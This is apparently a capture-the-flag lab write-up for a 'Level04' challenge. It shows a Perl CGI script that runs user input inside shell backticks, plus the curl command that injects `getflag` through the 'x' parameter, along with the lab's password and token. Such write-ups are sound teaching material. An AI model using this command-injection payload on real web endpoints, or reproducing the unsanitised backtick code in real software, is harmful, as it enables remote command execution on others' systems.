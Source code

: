 # Level04 - Flag04

## Local script usage

```shell
Usage: ./Ressources/main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level04 | `qi0maab88jeaj46qoumi7maus` |
| flag04  |                             |
| token   | `ne2searoevaevoem4ov4ar8ap` |

## Steps to resolve on VM

1. Connect to `level04` user and check the repo to find a perl script with `flag04` permissions

```bash
su level04
# Enter the token

ls -l
> total 4
> -rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl

cat level04.pl
> #!/usr/bin/perl
> # localhost:4747
> use CGI qw{param}; # (Common Gateway Interface), a protocol for executing scripts via web requests
> print "Content-type: text/html\n\n";
> sub x { # sub for subroutine (function) with 'x' parameter here
>   $y = $_[0];
>   print `echo $y 2>&1`;
> }
> x(param("x")); # param will look at the 'x' parameter given with the link (ex: localhost:4747?x=42)

# By looking at the comments we can notice the 'localhost:4747' adress
# We will list all the listening ports with netstat
netstat -tulpn | grep LISTEN
# Which will confirm us that a server is actually running on the 4747 port
>[...]
>tcp6       0      0 :::4747                 :::*                    LISTEN      -
>[...]
```

2. Check the server on port 4747 and try to trick it to get the flag

```bash
# First we check if we can curl
curl localhost:4747
# Now that it works indeed, we try to give x argument as we saw it in the perl script
curl localhost:4747?x=42
>42

# We need now to trick it and execute getflag
# Perl script is apparently executing 'echo' + the argument we give to him,
# so let's give him the command 'getflag' to execute it
curl 'localhost:4747?x=`getflag`' #single quote used because of backquotes
> Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

---

## Sources

### SHELL

- [CGI & 'param()'](http://www.biogem.org/downloads/notes/Passing%20Parameters%20via%20CGI.pdf)
- [Perl subroutines](https://www.tutorialspoint.com/perl/perl_subroutines.htm)
- [Curl special characters](https://www.unix.com/shell-programming-and-scripting/275920-using-curl-command-special-characters-url.html)
- [Single quotes vs Double quotes](https://stackoverflow.com/questions/1824160/escape-backquote-in-a-double-quoted-string-in-shell)
